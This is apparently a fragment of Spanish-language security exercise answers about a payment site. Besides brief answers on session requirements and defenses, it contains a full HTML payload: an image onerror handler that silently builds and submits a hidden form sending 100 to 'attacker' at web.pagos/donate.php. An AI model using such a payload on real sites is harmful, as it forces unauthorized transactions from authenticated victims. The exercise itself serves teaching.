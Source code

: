  Ese código para enviar al usuario silenciosamente al enlace.


**C**

Necesita tener un usuario autenticado y una sesión activa en la página. 

**D**

La protegería más pero no estaría totalmente blindada. 

```html 
<img src="x" onerror="
var form = document.createElement('form');
form.method = 'POST';
form.action = 'http://web.pagos/donate.php';
form.style.display = 'none';

var amountInput = document.createElement('input');
amountInput.type = 'hidden';
amountInput.name = 'amount';
amountInput.value = '100';
form.appendChild(amountInput);

var receiverInput = document.createElement('input');
receiverInput.type = 'hidden';
receiverInput.name = 'receiver';
receiverInput.value = 'attacker';
form.appendChild(receiverInput);

document.body.appendChild(form);
form.submit();
" style="display:none;">
```

